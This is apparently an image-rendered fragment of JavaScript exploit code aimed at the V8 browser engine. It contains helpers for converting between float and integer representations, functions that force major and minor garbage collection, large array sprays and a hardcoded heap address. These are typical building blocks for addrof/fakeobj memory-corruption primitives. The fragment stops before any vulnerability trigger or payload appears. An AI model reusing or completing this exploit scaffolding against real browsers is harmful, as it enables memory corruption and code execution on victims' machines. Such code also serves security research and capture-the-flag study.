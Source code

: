 ```
function set_l(l) {
        u32[0] = l;
}
 
function set_h(h) {
        u32[1] = h;
}
 
function get_l() {
        return u32[0];
}
 
function get_h() {
        return u32[1];
}
 
function get_u64() {
        return u64[0];
}
 
function get_f64() {
        return f64[0];
}
 
function get_fl(val) {
        f64[0] = val;
        return u32[0];
}
 
function get_fh(val) {
        f64[0] = val;
        return u32[1];
}
 
function add_ref(obj) {
        roots[index++] = obj;
}
 
function major_gc() {
        new ArrayBuffer(0x7fe00000);
}
 
function minor_gc() {
        for (let i = 0; i < 8; i++) {
                add_ref(new ArrayBuffer(0x200000));
        }
        add_ref(new ArrayBuffer(8));
}
 
function hexx(str, val) {
        console.log("[+] "+str+": 0x"+val.toString(16));
}
 
function sleep(ms) {
        return new Promise((resolve) => setTimeout(resolve, ms));
}
 
 
var big_double_array = new Array(0xf700).fill(1.1);
var big_object_array = new Array(0xf700).fill({});
 
var const_double_element_addr = 0x00442141;
var const_double_data_addr = const_double_element_addr+7;
```